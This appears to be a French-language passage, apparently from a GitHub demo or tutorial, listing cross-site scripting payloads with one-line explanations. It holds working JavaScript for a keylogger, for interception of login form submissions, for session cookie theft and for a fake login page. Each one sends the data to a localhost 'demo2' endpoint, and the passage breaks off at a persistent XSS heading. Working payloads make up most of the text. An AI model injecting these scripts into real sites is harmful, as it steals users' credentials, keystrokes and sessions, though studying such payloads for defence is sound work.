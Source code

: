 - **Keylogger simple :**

```html
<script>
    document.onkeypress = function(e) {
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://localhost/demo2/keystroke?key=' + e.key, true);
        xhr.send();
    };
</script>
```

**Explication :** Ce script enregistre les frappes de clavier et les envoie à une URL spécifiée.

- **Interception des formulaires de login :**

```html
<script>
    var form = document.forms[0];
    form.onsubmit = function() {
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://localhost/demo2/stealdata.php', true);
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.send('username=' + form.username.value + '&password=' + form.password.value);
    };
</script>
```

**Explication :** Ce script intercepte la soumission d'un formulaire de connexion et envoie les données de connexion à une URL spécifiée.

- **Vol des informations de la session :**

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://localhost/demo2/stealdata.php?session=' + encodeURIComponent(document.cookie), true);
    xhr.send();
</script>
```

**Explication :** Ce script envoie les informations de session de l'utilisateur à une URL spécifiée.

- **Affichage d'une fausse page de connexion :**

```html
<script>
    document.body.innerHTML = '<form action="http://localhost/demo2/fake.html" method="post"><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>';
</script>
```

**Explication :** Ce script remplace le contenu de la page par un formulaire de connexion factice.

- **Injection d'une balise script persistante (persistent XSS) :**
